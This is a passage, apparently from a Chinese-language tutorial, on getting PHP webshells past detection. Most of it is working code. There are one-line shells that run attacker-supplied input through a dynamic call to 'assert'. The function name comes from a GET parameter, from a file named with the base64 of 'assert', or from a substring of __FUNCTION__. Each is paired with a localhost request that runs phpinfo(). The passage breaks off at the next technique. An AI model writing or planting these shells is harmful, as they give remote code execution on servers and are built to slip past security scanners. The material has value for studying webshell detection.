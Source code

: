 ```php
<?php
function  demo()
{
    return $_GET["a"];
}

demo()($_GET["b"]);
```

```http
http://127.0.0.1:8081/security/bypass/test24.php?a=assert&b=phpinfo()
```

#### 2.3 魔术常量

可以用到的4种魔术常量

```
__FILE__：返回当前文件的绝对路径(包含文件名)。

__FUNCTION__：返回当前函数(或方法)的名称。

__CLASS__：返回当前的类名(包括该类的作用区域或命名空间)。

__NAMESPACE__：返回当前文件的命名空间的名称。
```



2.3.1：`__FILE__的利用，将webshell的名字改为base64编码后的内容`

```php
<?php
base64_decode(basename(__FILE__,".php"))($_GET[1]);
```

```http
http://127.0.0.1:8081/security/bypass/YXNzZXJ0.php?1=phpinfo()
```

```
YXNzZXJ0 为 assert base64编码后的内容
```

2.3.2：`__FUNCTION__的利用，获取函数名`

```php
<?php
function assert2(){
    substr(__FUNCTION__,0,6)($_GET[1]);
}
assert2();
```

```http
http://127.0.0.1:8081/security/bypass/test25.php?1=phpinfo()
```

2.3.3：`__CLASS__的利用，获取类名`
